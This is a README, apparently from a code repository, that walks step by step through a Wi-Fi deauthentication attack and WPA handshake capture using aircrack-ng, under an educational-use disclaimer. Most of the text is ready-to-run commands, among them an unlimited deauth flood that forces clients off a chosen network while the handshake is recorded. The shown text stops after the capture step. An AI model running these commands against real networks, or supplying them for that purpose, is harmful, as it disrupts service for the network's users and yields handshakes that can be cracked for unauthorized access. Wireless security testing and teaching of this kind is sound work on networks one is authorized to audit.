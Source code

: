 ## ⚠️ Disclaimer

> This guide is for **educational purposes only**. Unauthorized access or disruption of any network is illegal and unethical. Only test on networks **you own or have explicit permission** to audit.

---

# 🔧 Wi-Fi Deauthentication Attack and Handshake Capture Guide (Linux)

This README outlines the steps to perform a deauthentication attack and capture a WPA handshake using `aircrack-ng` tools on a compatible wireless card in monitor mode.

---

## 🛠 Prerequisites

* A compatible Wi-Fi adapter that supports monitor mode and packet injection
* Linux OS
* `aircrack-ng` suite installed

Install it if not already:

```bash
sudo apt update && sudo apt install aircrack-ng -y
```

---

## 1. Identify Wireless Interface

```bash
iwconfig
```

Look for your wireless adapter (e.g., `wlo1`). It should show IEEE 802.11 capabilities.

---

## 2. Kill Conflicting Processes

Before enabling monitor mode, kill network managers to avoid interference:

```bash
sudo airmon-ng check kill
```

> 📝 **Note**: This will disconnect you from the internet.

---

## 3. Enable Monitor Mode

Use `airmon-ng` to put your wireless adapter into monitor mode:

```bash
sudo airmon-ng start wlo1
```

This will likely create a new interface (e.g., `wlo1mon`).

---

## 4. Discover Nearby Access Points

Use `airodump-ng` to scan for wireless networks:

```bash
sudo airodump-ng wlo1mon
```

* **BSSID**: MAC address of the access point
* **CH**: Channel
* **ESSID**: Network name (SSID)

> Make note of the **BSSID** and **channel** of your target network.

---

## 4.5. Capture WPA Handshake

To capture the WPA handshake, you'll need to run `airodump-ng` specifically on the target network's channel and BSSID, while also performing a deauthentication attack to force a client to reconnect and generate the handshake.

1.  **Start `airodump-ng` to capture the handshake:**
    Open a new terminal window and run:
    ```bash
    sudo airodump-ng -c <channel> --bssid <BSSID> -w <output_filename> <monitor_interface>
    ```
    *   Replace `<channel>` with the target network's channel.
    *   Replace `<BSSID>` with the target network's BSSID.
    *   Replace `<output_filename>` with a name for your capture file (e.g., `wpa_handshake`). This will create files like `wpa_handshake-01.cap`.
    *   Replace `<monitor_interface>` with your monitor mode interface (e.g., `wlo1mon`).

    Keep this terminal window open and running. `airodump-ng` will listen for the handshake.

2.  **Perform a deauthentication attack (in another terminal):**
    While `airodump-ng` is running, go to your original terminal and perform the deauthentication attack as described in **Section 6** of the original `Deauth.md` (or use the command below). This will disconnect clients, and when they reconnect, `airodump-ng` should capture the handshake.

    ```bash
    sudo aireplay-ng --deauth 0 -a <BSSID> <monitor_interface>
    ```
    You'll see a message like `WPA handshake: <BSSID>` in the `airodump-ng` terminal when a handshake is captured.

---